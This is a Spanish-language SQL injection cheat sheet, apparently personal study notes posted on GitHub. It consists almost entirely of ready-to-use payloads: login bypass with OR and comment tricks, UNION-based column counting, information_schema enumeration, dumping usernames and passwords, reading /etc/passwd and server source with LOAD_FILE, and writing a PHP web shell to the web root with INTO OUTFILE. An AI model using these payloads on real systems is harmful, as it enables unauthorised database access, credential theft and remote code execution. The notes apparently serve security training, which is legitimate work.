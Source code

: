 # SLQi


## Tipos de inyecciones SQL

- In-Band
    - Union Based
    - Error Based
  
- Blind
  - Boolean Based
  - Time Based

- Out-of-band


## Payloads

| Payload | Url Encoded |
|:--------|:--------|
| '         | %27   |
| "         | %22   |
| #         | %23   |
| ;         | %3B   |
| )         | %29   |

admin' or '1'=='1'-- -


## OR Injection

```cmd
admin' or '1'='1

SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

## Comments

```cmd
admin'--

SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

```
 admin')--

SELECT * FROM logins where (username='admin')-- and id>1) and .... 
```

## Union

```
SELECT * FROM products WHERE product_id = 'user_input'

SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '

SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords

... UNION SELECT username, 2, 3, 4 from passwords-- '


```

Nota: regresa username y password asumiendo que products tiene dos columnas.

## Union Injection 

### Detectar número de columnas

```cmd
' order by 4-- -
```

```cmd
cn' UNION select 1,2,3,4-- -
```

## Enumerate Database

### Database version

| payload           | Salida esperada            | Salida en otro dbms |
|:------------------|:---------------------------|:----------------|
| SELECT @@version  | regresa la versión de sql  | error |
| SELECT POW(1,1)   | 1   | error 
| SELECT SLEEP(5)   | retarda la respuesta 5 segundos y regresa 0 | sin delay
|

### Informaton_schema Database

Esta base de datos contiene los metadatos acerca las bases de datos y tablas presentes en el servidor.

- schemata

Información de las tablas en el sistema

```
select schema_name from information_schema.schemata

cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
cn' UNION select 1,database(),2,3-- -
```

- Tablas

```cmd
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

- Columnas

```cmd
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

- Datos

```
cn' UNION select 1, username, password, 4 from dev.credentials-- -
cn' UNION select 1, username, password, 4 from ilfreight.users-- -
```


## Reading Files

```
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

## Write Files

- verificar si tenemos permiso de escritura
  
```cmd
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

```
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -

cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

